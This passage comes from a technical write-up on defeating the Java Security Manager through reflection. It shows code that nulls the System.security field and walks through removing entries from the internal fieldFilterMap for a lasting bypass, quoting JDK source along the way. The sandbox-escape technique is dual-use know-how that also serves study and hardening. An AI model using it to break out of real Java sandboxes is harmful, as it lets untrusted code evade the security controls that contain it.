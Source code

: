 ```java
		securityField.setAccessible(true);
		securityField.set(null, null);
```
Thats it! The security field has been set to null. In other words, the Java Security Manager is disabled. You can check with `System.getSecurityManager() != null`, which must return `false`.
# Permanent Bypass
As you know, this is a one time bypass. You still won't be able to obtain the `security` field directly with what we usually do. To permanently bypass the filter, we need to remove the entry from `jdk.internal.reflect.Reflection.fieldFilterMap`. However, the `fieldFilterMap` also marks to filter itself, so we need to do the similar thing again. And yes, full access to reflection related operations are required. It also requires an additional permission of `accessClassInPackage.jdk.internal.reflect`, because we are always unable to access packages which are not `export`ed from a module, provided that the code is not in the same module, which is always true. It also applies for reflection.
## Get the fieldFilterMap Field
Since we cannot reference `jdk.internal.reflect.Reflection`, we need to use `Class.forName(String)`.
```java
		Method getDeclaredFields0M = Class.class.getDeclaredMethod("getDeclaredFields0", boolean.class);
		getDeclaredFields0M.setAccessible(true);
		Field[] fields = (Field[]) getDeclaredFields0M.invoke(Class.forName("jdk.internal.reflect.Reflection"), false);
		Field mapField = null;
		for (Field field : fields) 
			if (field.getName().equals("fieldFilterMap")) 
				mapField = field;
```
## Get the Map via reflection
We don't want to set the field to null, because it will cause error during filtration. Instead, get the `Map` and remove the entries.
### Inspect setAccessible(boolean)
However, the setAccessible(boolean) will also explicitly check whether the Reflection class is exported to us, regardless of accessClassInPackage permission.
```java
    /**
     * @throws InaccessibleObjectException {@inheritDoc}
     * @throws SecurityException {@inheritDoc}
     */
    @Override
    @CallerSensitive
    public void setAccessible(boolean flag) {
        AccessibleObject.checkPermission();
        if (flag) checkCanSetAccessible(Reflection.getCallerClass());
        setAccessible0(flag);
    }
```
The first suspicious check is `AccessibleObject.checkPermission()`, which routes to here.
```java
    /**
     * The Permission object that is used to check whether a client
     * has sufficient privilege to defeat Java language access
     * control checks.
     */
    private static final java.security.Permission ACCESS_PERMISSION =
        new ReflectPermission("suppressAccessChecks");

    static void checkPermission() {
        SecurityManager sm = System.getSecurityManager();
        if (sm != null) sm.checkPermission(ACCESS_PERMISSION);
```